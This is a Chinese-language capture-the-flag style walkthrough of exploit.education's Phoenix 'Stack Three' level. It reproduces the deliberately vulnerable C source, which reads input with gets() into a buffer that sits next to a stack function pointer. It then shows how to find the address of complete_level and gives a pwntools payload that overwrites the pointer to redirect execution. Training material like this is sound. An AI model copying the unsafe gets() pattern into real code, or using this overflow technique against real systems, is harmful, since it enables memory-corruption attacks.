





# STACK THREE

Stack Three looks at overwriting function pointers stored on the stack.

**Hints**

- You can use gdb and objdump to determine where the complete_level() function is in memory.

### Source code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

官方页面

直接 Ghidra 载入



这题的目的就是让我们劫持程序的执行流程，可以看到，在 main 函数里面并没有直接或间接调用 `complete_level`函数，我们现在的目的是调用它，怎么做？

这个还是一样的 栈溢出 变量覆盖，不过这一次我们不是之前的覆盖变量

我们要覆盖 `local_18`，把 `local_18` 覆盖成 `complete_level`函数的地址

可以看到 `(*local_18)();` 这一句，把 `*local_18` 当成函数去执行了，所以，我们只要覆盖 `local_18` 成 `complete_level`函数的地址就可以实现调用 `complete_level`函数

至于怎么获取 `complete_level`函数的地址，其实这里程序在编译的时候关掉了 PIE 

我是直接用 nm 导出符号



可以得到 

```
000000000040069d T complete_level
```

前面的数字就是函数地址

```bash
nm stack-three | grep complete_level | cut -d " " -f 1
```



`0x000000000040069d` 就是 `complete_level` 的地址，好了现在看一下我们要填充的长度



填充的长度 

`0x58 - 0x18 = 0x40`

写 payload：

```python
from pwn import *

complete_level = 0x000000000040069d
exp = "A" * 0x40
exp += p64(complete_level)

print(exp)
```



pwn ！